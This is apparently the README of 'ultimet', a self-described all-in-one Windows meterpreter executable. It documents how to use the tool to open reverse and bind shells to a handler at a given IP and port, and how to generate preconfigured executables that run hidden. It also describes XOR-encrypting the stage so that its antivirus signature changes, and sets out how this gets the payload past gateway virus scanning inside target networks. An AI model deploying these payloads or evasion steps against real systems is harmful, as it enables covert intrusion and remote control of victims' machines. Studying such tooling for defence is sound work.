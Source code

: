 ================================================
[ultimet] - The ultimate meterpreter executable.
================================================
  ...your one stop shop for all your
              meterpreter executable needs...

Usage, examples and faq http://eldeeb.net/wrdprs/?p=176

#0. Executive Summary :)#
ultimet:
 - Is a windows executable that can function as various meterpreter flavours, in addition to functioning as "msfpayload" to generate exe files that run hidden when executed.
 - Supports functioning as the following meterpreter "types": "reverse_tcp", "bind_tcp", "reverse_http", "reverse_https", "metsvc_bind_tcp" and "metsvcreverse_tcp"
 - Can create exe files that connects upon execution using pre-configured settings "exactly as msfpayload generated exe", however, generated exe files still accept command line arguments and settings could be reset or changed, all supported from within that single exe ... "meterpreter-on-steroids :)".
 - The generated exe is a pre-configured ultimet that can be used to create OTHER exe files! so, let's say you created a reverse_tcp exe using the `--msfpayload` option, you can use THAT exe later to create another bind_metsvc, then use THAT exe to create a reverse_http ... and so on, or simply reset to default...pretty neat! 
 _ultimet is a program that once found its way to inside a windows environmet, you won't need msfpayload or msfvenom anymore to create different exe files for different settings, use the same exe for different situations_
 - The msfpayload-like functionality works under linux perfectly fine using "wine >= 1.3.17", no need to leave your beloved *n?x box to create a pre-configured exe.
 - Supports many options to load the stage from: Resource, Encrypted-Resource, file, encrypted file or over the network "stager-mode" ... it functions as a non-staged payload "inline" when the stage is provided "either through file or the default bundled-resource".
 - Offset of ReflectiveLoader function is calculated at runtime and bootstrap is patched in memory, so, in plain english, you can use your own self-compiled metsrv.dll as the stage!.
 
 
 _Working as payload:_
 Example#1: Connect back to a meterpreter/reverse_tcp handler, LPORT=4444, LHOST=192.168.59.132
 `ultimet.exe -t reverse_tcp -h 192.168.59.132 -p 4444`
 
 Example#2: Start listening "bind" on all interfaces waiting for a meterpreter/bind_tcp handler to connect, LPORT=8888
 `ultimet.exe -t bind_tcp -h 0.0.0.0 -p 8888`
 
 Example#3: Load stage from local file, connect back to a meterpreter/reverse_http handler, LPORT=8080, LHOST=192.168.59.132
 `ultimet.exe -f c:\wwwroot\uploads\metsrv.dll -t reverse_http -h 192.168.59.132 -p 8080`

_Working as msfpayload:_
 Example#1: msfpayload windows/meterpreter/reverse_tcp LPORT=4444 LHOST=192.168.59.132
 `ultimet.exe -t reverse_tcp -h 192.168.59.132 -p 4444 --msfpayload`
 
 Example#2: Reset exe to default and remove all pre-set connection settings
 `ultimet.exe --reset`
 
 Example#3: Remove bundled stage to create a smaller file
 `ultimet.exe --remove-stage`
 
 
---------------
1. Introduction
---------------
  - Stand-alone meterpreter executables that are created using (msfpayload/msfvenom) are not flexible in selecting the LHOST, LPORT or even the transport after being created ... i.e. once you create the exe, you cannot change any of the settings you specified during the creation of the executable.

  - Meterpreter by design is a "staged" payload, it consists of a "stager" and a "stage"; when msfpayload|msfvenom create an exe, that's the "stager" part of meterpreter, which has only one purpose: When executed, connect back to the exploit/multi/handler, make room for the stager, copy the "stage" from handler, then execute the "stage" ... that "stage" is nothing but a patched version of "metsrv.dll" that you find in metasploit directory ... this scenario presents a challenge in highly secure environments(!) where incoming files from the internet are checked for viruses `:)` ...  example: someone created a meterpreter/reverse_http exe using msfvenom, then he manages to bypass AV somehow and successfully executed this exe on one machine inside the target environment, if there's some kind of virus checking of downloaded files at the gateway/proxy level ... the "stage" gets flagged, not downloaded, not executed, and you're doomed.

-------------------
2. What is ultimet?
-------------------
  - read the executive summary ...

------------------------------------------------
3. What are the supported transports (payloads)? 
------------------------------------------------
- It supports "reverse_tcp", "bind_tcp", "reverse_http", "reverse_https" and "bind_metsvc & reverse_metsvc <- when stage included". 

---------------------------------------
4. How exactly is the stage "included"? 
---------------------------------------
- The "stage" can be loaded using any of the following options:
  - From a resource, or an encrypted resource that is included in the exe itself.
  - From a file (metsrv.dll), or an encrypted file.
  - ... if stage is not available, stage gets loaded over the network, which is basically falling back into "stager-mode".

------------------
5. inmet & ultimet 
------------------
The zip file contains two exe, inmet & ultimet:
- inmet is (ultimet + stage as a resource) that is the (exe) that has the (stage as a resource).
- ultimet is (inmet - stage as resource) that is JUST THE EXE.
- so, if you used any PE resource editor to crack open inmet.exe, you'll find a resource called "BINARY" and ID "101", if you deleted that resource, it will still work, but as a stager only.
- ... if you took that "stripped-down" exe again, opened it, and imported metsrv.dll (or the encrypted version of it)  into that exe, called the resource "BINARY" and set the ID to "101" ... it will become an inline exe again.
- inmet and ultimet are SAME EXECUTABLE that detects when it's just a mere stager, or the inline version of the executable.
- Got it? ... if not just download both and try to figure out the difference on your own ...

---------------
6. Encryption?! 
---------------
- ultimet will load metsrv.dll if it is plain (the one in your computer) or encrypted using the following scheme:
    - XOR every byte % a random 16-bytes key (position = i % 16; metsrv[i] ^=  key[position])
    - PREPEND the whole encrypted metsrv.dll with the 16 bytes random key :)
- FIPS compliant, strong and unbreakable encryption, I know, thank you ... but it gets the job done pretty well "AV sig change".
- A tool is included that does this automatically (ultimet_xor.exe) ... just drag metsrv.dll over it and you'll get a file called "encrypted.rsc" ... import that into ultimet.exe, they'll know how to play nice with each other.

---------------
7. Known issues 
---------------
- Currently the ReflectiveDLL bootstrap has the RVA_to_file offset of the ReflectiveLoader  hardcoded, so, you cannot use your own metsrv.dll if that offset is different without changing the offset in "constants.h" ... working on it.
- If your linker complained about not finding "encrypted.rsc" ... open "inmet.rc" using a text editor, and hard code the path there "or just put it on the root of your "e:\" drive ... to lazy to fix that and VS can be a **** sometimes.

----------------
8. Bug reporting 
----------------
- Github
- ultimet@eldeeb.net

---------
9. Author 
---------
- Sherif Eldeeb
- http://eldeeb.net
- @SheriefEldeeb
- archeldeeb@gmail.com
Made in Egypt.

... P.S: I am not a developer ;)

-------------------
10. Contributors:
-------------------
- Anwar Mohamed "@anwarelmakrahy"
  Added support for metsvc_bind_tcp & bind_tcp.
  
-------------------
11. Acknowledgments
-------------------
- All the extremely helpful people at #metasploit, and the mailing list:
hdm, corelanc0d3r, mihi, egypt, kernelsmith, tillo.
- Stephen Fewer for helping with ReflectiveDll stuff.
- @lnxg33k, @anwarelmakrahy & Yehia Mamdouh: for testing and bug reporting.




